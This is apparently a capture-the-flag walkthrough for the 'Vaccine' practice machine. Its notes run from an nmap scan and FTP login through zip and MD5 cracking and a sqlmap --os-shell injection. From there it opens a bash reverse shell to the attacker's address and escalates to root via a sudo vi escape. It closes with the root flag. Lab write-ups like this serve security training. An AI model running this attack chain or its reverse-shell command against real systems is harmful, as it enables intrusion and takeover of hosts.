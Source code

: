 inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c

# Vaccine

## nmap

sudo nmap -sC -sV -A 10.10.10.46

Nmap scan report for 10.10.10.46
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   244.85 ms 10.10.14.1
2   244.90 ms 10.10.10.46

## Need to install ftp

ftp 10.10.10.46
username: ftpuser
password: mc@F1l3ZilL4

get the backup.zip

## Use zip hash to crack

zip2john backup.zip > backup.hash
john backup.hash --show (741852963)
unzip backup.zip in this password

## Try login on [index.php](./ftp/backup/index.php)

username: admin
password (md5 reverse): 2cb42f8734ea607eefed3b70af13bbd3 ( qwerty789)

## Sqlmap to hack os shell

sqlmap 10.10.10.46/dashboard.php?search=whatever --cookie="PHPSESSID=01aruoep6i9jf18e8ho8runboo" --os-shell

**pwd**
> /var/lib/postgresql/11/main

**change cmd**
source
> bash -c 'bash -i >& /dev/tcp/10.10.14.69/8001 0>&1'
destination
> nc -lvnp 8001

**id**
> uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)

- postgresql account in [/var/www/html/dashboard.php](./dashboard.php)
> username: postgres
> password: P@s5w0rd!
> port:     5432 (omit)
> dbname:   carsdb

## Sudo lists all privilege command can do

> sudo -l

Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

- postgres can use vi in /bin/vi
> which vi
> /usr/bin/vi

- use sudo vi to get root
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
> :!/bin/bash -P

root.txt
dd6e058e814260bc70e9bbdef2715849